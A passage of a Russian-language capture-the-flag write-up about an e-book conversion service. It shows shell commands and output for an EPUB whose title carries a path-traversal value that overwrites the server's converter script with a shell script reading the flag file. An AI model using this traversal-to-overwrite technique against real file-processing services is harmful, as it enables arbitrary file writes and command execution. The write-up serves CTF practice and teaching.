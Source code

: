 ```
/sbin/ifup
/sbin/findfs
/sbin/arp
/sbin/losetup
/sbin/ifenslave
/sbin/swapon
/sbin/pivot_root
/run
/home/bookkeeper/books/convert.py: line 4: ---: not found
```

В этом огромном списке файлов можно найти поиском по слову `flag`, что существует файл `/home/bookkeeper/flag-sxwok7.txt`. Сбросим контейнер опять и прочтем его:

```shell
$ cat >OEBPS/source.xhtml <<EOF
#!/bin/sh
cat /home/bookkeeper/flag-sxwok7.txt
EOF
$ zip -r ../test-book.zip .
updating: mimetype (stored 0%)
updating: META-INF/ (stored 0%)
updating: META-INF/container.xml (deflated 27%)
updating: OEBPS/ (stored 0%)
updating: OEBPS/content.opf (deflated 52%)
updating: OEBPS/source.xhtml (stored 0%)
```

```
Archive:  book.epub
 extracting: mimetype                
   creating: META-INF/
  inflating: META-INF/container.xml  
   creating: OEBPS/
  inflating: OEBPS/content.opf       
 extracting: OEBPS/source.xhtml      
Rootfile found at OEBPS/content.opf
Title: ../..////////////////////////////////////////////////home/bookkeeper/books/convert.py
Output: /tmp/converted/../..////////////////////////////////////////////////home/bookkeeper/books/convert.py
```

```
ugra_so_much_for_security_if3a74xwzhgs/home/bookkeeper/books/convert.py: line 4: ---: not found
```

Флаг: **ugra_so_much_for_security_if3a74xwzhgs**
